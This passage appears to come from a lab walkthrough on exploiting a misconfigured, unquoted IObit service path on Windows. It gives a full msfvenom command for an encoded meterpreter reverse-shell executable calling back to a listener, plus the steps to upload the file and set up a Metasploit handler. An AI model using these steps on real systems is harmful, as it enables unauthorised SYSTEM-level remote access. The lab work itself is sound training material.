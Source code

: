 ```Powershell
```

From the above output, we see there is a service with the `CanRestart` option set to True. Furthermore, since the path is not quoted, we can create a file name `Advanced.exe` and save it in the `C:\Program Files (x86)\IObit\` directory. However, this can also be exploited by simply replacing the `ASCService.exe` file since file permissions are misconfigured.

We can use `msfvenom` to generate a meterpreter reverse_shell and save it as `Advanced.exe`. Since the file is executed as `localsystem`, we can get a reverse connection with a reverse shell as them.

```bash
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.4.72.115 LPORT=9999 -e x86/shikata_ga_nai -f exe > Advanced.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of exe file: 73802 bytes
```

We can now upload it to the remote machine and save it in the `IObit` directory. (We need to stop the `AdvancedSystemCareService9` service before replacing the file.)

```shell
meterpreter > upload Advanced.exe
meterpreter > ls
Listing: C:\Program Files (x86)\IObit
=====================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
040777/rwxrwxrwx  32768  dir   2024-04-19 18:13:25 +1000  Advanced SystemCare
100777/rwxrwxrwx  73802  fil   2024-04-19 19:53:46 +1000  Advanced.exe
040777/rwxrwxrwx  0      dir   2019-09-27 15:35:24 +1000  IObit Uninstaller
040777/rwxrwxrwx  4096   dir   2019-09-27 01:18:50 +1000  LiveUpdate
100666/rw-rw-rw-  28     fil   2024-04-19 19:22:37 +1000  start
100666/rw-rw-rw-  28     fil   2024-04-19 19:22:26 +1000  stop
```

Before restarting the service, we need to create a handler in Metasploit to catch the reverse connection.

```shell
msf6 > use multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.4.72.115
LHOST => 10.4.72.115
msf6 exploit(multi/handler) > set LPORT 9999
LPORT => 9999
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.4.72.115:9999 
```
